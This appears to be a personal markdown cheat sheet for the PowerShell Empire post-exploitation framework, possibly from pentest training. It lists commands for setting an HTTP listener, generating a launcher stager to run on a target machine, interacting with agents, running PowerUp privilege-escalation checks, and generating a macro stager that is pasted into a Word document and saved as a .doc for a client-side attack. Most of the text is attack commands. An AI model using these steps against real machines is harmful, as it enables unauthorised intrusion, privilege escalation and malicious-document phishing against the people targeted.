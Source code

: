 - Verify
listeners
now our listener should appear

### set Stager
```powershell
usestager = it will show the options
usestager multi/launcher
info = to show options
set Listener http
execute
copy the payload to execute in the target machine
```

### Agents
After executing the payload in the target, we should have an agent in Empire = same as session in metasploit

```powershell
agents = it will show the open session
help
interact <tab> choose an option = same as session -i <number> (metasploit)
```

### In Empire Session
```powershell
help = always to show the available options
info = same as sysinfo (metasploit)
shell = to use commands

shell whoami
shell whoami /GROUPS
usemodule
searchmodule checks

usemodule privesc/powerup/allchecks
execute
```

### Client side attack
```powershell
main = to come back to the main menu
usestager windows/macro
info
set Listener http
set OutFile root/tools/Empire/data/macro
execute 
```

the macro code will be save in that directory
we can copy-paste the macro to a word document
make sure that you enable developer tab For your version of microsoft word
alt+f11 = to open the visual basic 
copy the payload to the editor
save the file .doc
